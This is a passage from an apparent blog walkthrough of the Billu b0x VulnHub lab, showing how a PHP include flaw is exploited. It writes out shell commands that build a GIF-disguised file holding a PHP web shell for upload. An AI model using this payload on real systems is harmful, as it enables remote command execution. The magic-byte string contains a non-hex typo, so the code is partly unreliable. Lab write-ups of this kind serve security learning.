 _Note_ all three have the include function.
During execution the function will look like
![9-11.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-11.png)


This is what we'll exploit.
First we check the proof of concept.

![9-12.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-12.png)
![9-13.png](/assets/images/posts/billu-b0x-vulnhub-walkthrough/9-13.png)


We're now getting execution. Next we prepare the payload and upload it;

    echo 'FFD8FFEo' | xxd -r -p > giphy.gif
    echo '<?php system($_REQUEST["cmd"]); ?>' >> giphy.gif

__Note:__ There's no space between __?__ and __php.__ It has to be __'<?php'__ . Banged my head for hours on this. Only to realise the syntax was wrong.


[1]: https://www.vulnhub.com/entry/billu-b0x,188/
[2]: https://twitter.com/@indishell1046
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator
